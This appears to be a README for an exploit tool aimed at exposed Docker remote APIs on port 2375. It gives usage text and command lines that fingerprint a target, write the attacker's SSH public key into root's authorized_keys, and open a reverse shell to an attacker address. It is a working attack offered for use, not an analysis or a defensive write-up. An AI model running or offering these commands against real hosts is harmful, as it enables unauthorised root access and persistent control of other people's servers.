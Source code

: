 ## Docker remote api exp
### 参数说明

```bash
./docker_remote_api_exp 
Usage of ./docker_remote_api_exp:
  -pubkey string
    	id_rsa.pub file (default "/home/hartnett/.ssh/id_rsa.pub")
  -reverse string
    	reverse address, 6.6.6.6:8888
  -target string
    	target ip, 1.1.1.1:2375
  -type string
    	Type, such as check, root, shell (default "check")
  -version string
    	Docker version:
	---------------------------
	Docker version	API Version
	---------------------------
	1.12.x		1.24
	1.11.x		1.23
	1.10.x		1.22
	1.9.x		1.21
	1.8.x		1.20
	1.7.x		1.19
	1.6.x		1.18

 (default "1.12")
 ```

1. ./docker_remote_api_exp -type=check -target=ip:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./docker_remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./docker_remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell
